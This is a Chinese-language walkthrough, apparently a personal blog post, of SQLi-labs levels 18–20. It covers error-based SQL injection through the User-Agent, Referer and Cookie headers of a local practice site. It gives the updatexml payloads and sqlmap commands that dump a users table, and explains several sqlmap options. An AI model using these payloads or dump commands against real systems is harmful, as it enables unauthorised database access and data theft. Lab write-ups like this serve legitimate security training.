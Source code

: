 ```yaml
---
 title: Sqlilabs通关笔记(18-20)数据头注入
 date: 2020-01-07 12:32:50
 tags: SQL注入
 categories: SQL注入
---
```


## 第十八关 基于POST错误的Uagent字段数据头注入

![2020-1-7-12-45-44](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-12-45-44)
<!--more-->

### 注入点判断

1. 页面显示yourip应该是请求头的参数参入
2. 同时post传入并未有该参数
3. 用admin登录成功后发现有User-agents显示

![2020-1-7-12-57-43](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-12-57-43)

4. 无法使用hackbar插件提交了，需要用到burpsuit进行抓包提交
5. 抓包如下

![2020-1-7-12-58-2](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-12-58-2)

6. 在user-agent头上加单引号报错，确定user-agent注入了

![2020-1-7-13-1-5](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-1-5)

7. 通过单引号闭合进行payload构造

> User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0)' and '1' = '1

8. 直接构造报错注入的payload

> User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0)' and (updatexml(1,concat(0x7e,user(),0x7e),1)) and '1' = '1

![2020-1-7-13-8-59](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-8-59)

## 第十九关 基于POST错误的Referer字段数据头注入

1.同理，本关的注入点在Referer参数，payload一样只是参数位置不同

![2020-1-7-13-13-16](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-13-16)

## 第二十关 基于POST错误的Cookie-Uagent字段数据头注入

1.同理，本关的注入点在cookie参数，payload一样只是参数位置不同

> Cookie: uname=admin' and (updatexml(1,concat(0x7e,user(),0x7e),1)) and '1' = '1

![2020-1-7-13-19-53](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-19-53)

### SQLMAP注入

1. 可以直接使用-r进行对抓取的数据包进行检测
**在user-agent这个需要检测的参数上加上*号**

![2020-1-7-13-44-57](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-44-57)

> sqlmap -r "2.txt" -D security -T users --columns --dump --batch --technique E --batch --level 3 --threads 10

2. 也可以直接通过user-agent注入,时间可能稍长一些
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-18/" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1" --level 3 --threads 10 --dbms mysql --fresh-queries --flush-session -D security -T users --columns --dump --batch --technique E

* **--level** 

level: 设置检测的方方面面和测试用例
    - 默认是1,会尝试POST和GET
    - 2:Cookie也会加入检测
    - 3:User-Agent和Referer也会检测, 更大的值会增加用例量

* **--user-agent**

指定User-Agent

* **--data**

指定请求的内容

* **--dbms**

指定后端数据库,给定后端数据库的类型可以减少减少无关的测试用例.

* **--fresh-queries** 

fresh-queries会忽略之前的查询结果,进行重新请求操作

* **--flush-session**

flush-session会清空当前URL相关的session